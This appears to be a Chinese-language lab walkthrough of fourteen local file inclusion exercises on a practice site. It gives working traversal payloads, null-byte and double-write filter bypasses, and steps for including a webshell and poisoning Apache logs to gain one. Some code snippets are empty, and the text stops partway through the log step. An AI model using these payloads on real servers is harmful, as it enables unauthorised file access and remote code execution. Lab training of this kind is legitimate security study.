


文件包含进阶（一）
# 文件包含漏洞
# LFI-1
查看后台源码
include("../common/header.php"); |
请求 form 表单， GET 方式，请求 index.php 时，会调用 php 的 include($_GET["page"].".html");
http://www.lfi.com/LFI-1/?page=../phpinfo.php |

# LFI-2
参数是 library
由于 Hint 是 %00 截断，那么我们尝试：
http://www.lfi.com/LFI-2/?library=../../../boot.ini%00 |
http://www.lfi.com/LFI-2/?library=../../../phpinfo.php%00 |
那么我们可以任意文件包含，去包含 webshell.php
http://www.lfi.com/LFI-2/?library=../../../webshell.php%00 |
使用菜刀连接：

从这题可以看到，文件包含本质是利用文件包含 include 、 require 等漏洞来进行文件上传或文件访问
# LFI-3
查看 Hint
查看后台源码：
|
代码核心逻辑讲了：
从 GET 获取到的 file 参数内容里截取倒数第 4 个开始，取 4 个长度的子字符串
将此字符串和 .php (4 个字符) 进行比较 ——
- 如果相等则显示 “You are not allowed to see source files!”
- 否则调用
file_get_contents显示文件内容，或者如果是php的话前台浏览器会解析php代码
那么，利用点就是 过掉这个if条件判断 。
首先，我们先确定相对路径：
http://www.lfi.com/LFI-3/index.php?file=../../../../boot.ini |
然后将 boot.ini 替换成 phpinfo.php ，注意加 /.
http://www.lfi.com/LFI-3/index.php?file=../../../../phpinfo.php/. |
查看页面源代码，成功解析 php 代码：
理论上，可以用任何多余特殊字符绕过：
http://www.lfi.com/LFI-3/index.php?file=../../../../phpinfo.php. |
均成功解析 php
# LFI-4
直接查看源码：
|
核心逻辑：
拼接 includes/class_ + 经过addslashes处理的GET请求参数class + .php
然后使用 file_get_contents 函数回显这个拼接路径文件
注意： addslashes 可以对 双引号 、 单引号 、 反斜杠 、 NULL 前面加一个 反斜杠 进行转义
那么由于后面已经有 .php ，所以我们只需要构造 phpinfo ，并尝试相对路径：
http://www.lfi.com/LFI-4/?class=../../../../../phpinfo |
成功解析到 php 代码

# LFI-5
|
可以看到，此题将 ../ 过滤成 空 ，一般过滤成空的，我们可以通过双写来绕过。
那么有
http://www.lfi.com/LFI-5/?file=..././..././..././phpinfo.php |
成功显示 phpinfo 界面
# LFI-6
|
核心逻辑：
使用 POST 来传递参数，和 LFI-1 差不多。
那么可以构造：
page=../../phpinfo.php |
如何在服务器上写入一句话木马文件呢？
|
后续使用菜刀连接即可。
# LFI-7
library=../../../boot.ini%00 |
构造：
library=../../../phpinfo.php%00 |
# LFI-8
file=../../../../phpinfo.php/. |
# LFI-9
class=../../../../../phpinfo |
# LFI-10
file=..././..././..././phpinfo.php |
# LFI-11
这题使用了隐藏字段进行传递参数
那么可以有：
stylepath=../../../../phpinfo.php |

# LFI-12
还是使用隐藏字段传递，只不过变成了 GET 型
http://www.lfi.com/LFI-12/?stylepath=../../../../phpinfo.php |
# LFI-13
依旧是双写：
http://www.lfi.com/LFI-13/?file=..././..././..././phpinfo.php |
# LFI-14
变成了 POST 型，使用双写绕过：
file=..././..././..././phpinfo.php |
# 包含日志文件获取 webshell
我们通过 httpd-vhosts.conf 可以知道：
我们的网页日志存储在 logs/dummy-host2.asdf-access.log 中
那么我们通过文件包含去请求一句话木马，看是否会留下痕迹？
http://www.lfi.com/LFI-1/?page=<?php phpinfo();?> |
那我们构造：
http://www.lfi.com/LFI-1/?page= |
接着查看：
http://www.lfi.com/LFI-1/?page=../../../Apache/logs/dummy-host2.asdf-access.log |
发现 尖括号 和 空格 会被 URL 编码，这时候我们使用 BP 抓包修改